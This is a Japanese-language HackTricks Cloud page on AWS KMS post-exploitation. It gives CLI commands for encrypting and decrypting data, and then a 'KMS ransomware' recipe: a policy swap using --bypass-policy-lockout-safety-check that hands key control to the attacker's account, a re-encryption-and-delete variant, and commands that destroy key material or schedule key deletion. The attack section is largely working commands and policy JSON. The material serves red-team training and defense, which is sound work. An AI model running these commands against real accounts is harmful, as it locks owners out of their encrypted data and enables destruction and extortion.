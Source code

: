 # AWS - KMS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

詳細については以下を確認してください:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

* **対称**キーを使用
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' というエラーが発生した場合、kms decrypt を試みる際に **`fileb://`** の代わりに **`--ciphertext-blob file://`** を使用してみてください。

**`file://`** を使用すると、CLIを使用する際に好みのエンコーディングで書かれたファイルを使用する利便性が得られます。
CLIのバージョン1.6.3以降では、ファイルの内容をCLIに渡す別の方法である **`fileb://`** を使用できます。これは **`file://`** と似ていますが、ファイルの内容をテキストとしてではなくバイナリとして読み取ります。

ほとんどの場合、ファイルの内容を入力として渡すために **`file://`** で十分です。しかし、ファイルの内容をテキストではなくバイナリとして渡す必要がある場合もあります。
詳細はAWSのブログを参照してください: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

攻撃者がKMSに対して特権アクセスを持っている場合、キーのKMSポリシーを変更し、**自分のアカウントにアクセス権を付与**し、正当なアカウントに付与されたアクセス権を削除することができます。

その結果、正当なアカウントのユーザーはこれらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウントに対する簡単で効果的なランサムウェアが作成されます。

{% hint style="warning" %}
**AWS managed keys はこの攻撃の影響を受けません**、影響を受けるのは **Customer managed keys** のみです。

また、パラメータ **`--bypass-policy-lockout-safety-check`** を使用する必要があることに注意してください（このオプションがWebコンソールにないため、この攻撃はCLIからのみ可能です）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
このポリシーを変更して外部アカウントにのみアクセスを許可し、その後この外部アカウントから新しいポリシーを設定して**元のアカウントにアクセスを戻そうとしても、できません**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 一般的なKMSランサムウェア

#### グローバルKMSランサムウェア

グローバルKMSランサムウェアを実行する別の方法があります。以下の手順を含みます：

* 攻撃者がインポートした**キー素材で新しいキーを作成**
* 以前のバージョンで暗号化された古いデータを**新しいキーで再暗号化**
* **KMSキーを削除**
* これで、元のキー素材を持っている攻撃者だけが暗号化されたデータを復号できるようになります

### キーの破壊
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWSは現在、**クロスアカウントからの前述のアクションの実行を防止しています:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに。

</details>
{% endhint %}
